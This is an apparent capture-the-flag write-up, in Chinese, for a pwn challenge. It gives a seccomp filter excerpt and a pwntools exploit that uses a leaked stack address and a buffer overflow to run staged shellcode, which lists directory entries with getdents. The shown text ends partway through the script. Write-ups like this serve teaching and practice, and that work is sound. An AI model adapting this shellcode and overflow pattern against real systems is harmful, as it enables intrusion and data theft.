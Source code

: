 ```
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```



可以 ORW ，但是不知道檔名，不過可以用 `sys_getdents` 得到檔案目錄，印出來就能知道檔名，exploit:

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = remote('193.57.159.27', 35316)
# r = process('./notsimple')
# gdb.attach(r, """
# b *0x40128a
# """)

r.recvuntil('Oops, I\'m leaking! ')
stack = int(r.recvline()[:-1], 16)
info(f"""
stack: {hex(stack)}
""")

sc = asm(f"""
xor rax, rax
xor rdi, rdi
mov rsi, {stack}
mov rdx, 0x40000
syscall
""")

sc2 = asm(f"""
mov rax, 0
mov rdi, 0
mov rsi, {stack-0x800}
mov rdx, 0x30
syscall

mov rax, 2
mov rdi, {stack-0x800}
mov rsi, 0x10000
mov rdx, 0
syscall

mov rax, 78
mov rdi, 3
mov rsi, {stack-0x800}
mov rdx, 0x600
syscall

mov rax, 1
mov rdi, 1
mov rsi, {stack-0x800}
mov rdx, 0x600
syscall
""")

pl = sc
pl = pl.ljust(0x58, b'\x00')
pl += p64(stack)
```